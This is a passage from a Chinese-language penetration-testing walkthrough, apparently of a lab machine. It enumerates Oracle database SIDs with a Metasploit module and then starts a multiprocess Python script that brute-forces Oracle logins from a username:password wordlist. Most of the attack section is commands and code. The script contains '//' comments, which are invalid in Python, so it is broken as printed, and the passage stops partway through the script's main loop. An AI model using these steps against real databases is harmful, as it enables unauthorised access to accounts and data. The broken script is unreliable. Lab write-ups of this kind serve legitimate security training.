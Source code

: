 #### MSF获取SID

```
msfconsole
msf > use auxiliary/admin/oracle/sid_brute
msf > set rhosts 10.10.10.82
msf > run
```

![截图](533cd751f54e48af7147fb3f702dd60d.png)

扫描结果中可发现 SID 存在四个，分别是XE、XEXDB、PLSExtProc和CLRExtProc。相对于ODAT来说 MSF 发现 SID 明显更多.

### 爆破Oracle数据库

爆破 Oracle 账号密码可以使用 MSF 、odat 中关于 Oracle 爆破的相关模块，当然也可以使用自写脚本.

#### 自写脚本爆破

```
#!/usr/bin/env python

import cx_Oracle  //用于连接和操作Oracle数据库
import sys
from multiprocessing import Pool

MAX_PROC = 50
host = "10.10.10.82"
sid = "XE"    //Oracle数据库实例的标识符,这里为XE.

def usage():   //用于打印脚本的使用说明
    print("{} [ip] [wordlist]".format(sys.argv[0]))
    print("  wordlist should be of the format [username]:[password]")
    sys.exit(1)

def scan(userpass):   //接受一个用户名和密码的组合(格式为username:password)
    u, p = userpass.split(':')[:2]
    try:
        conn = cx_Oracle.connect('{user}/{pass_}@{ip}/{sid}'.format(user=u, pass_=p, ip=host, sid=sid))
        return u, p, True
    except cx_Oracle.DatabaseError:
        return u, p, False


def main(host, userpassfile, nprocs=MAX_PROC):   //读取包含用户名和密码组合的文件userpassfile
    with open(userpassfile, 'r') as f:
       userpass = f.read().rstrip().replace('\r','').split('\n')

    pool = Pool(processes=nprocs)

    for username, pass_, status in pool.imap_unordered(scan, [up for up in userpass]):
```
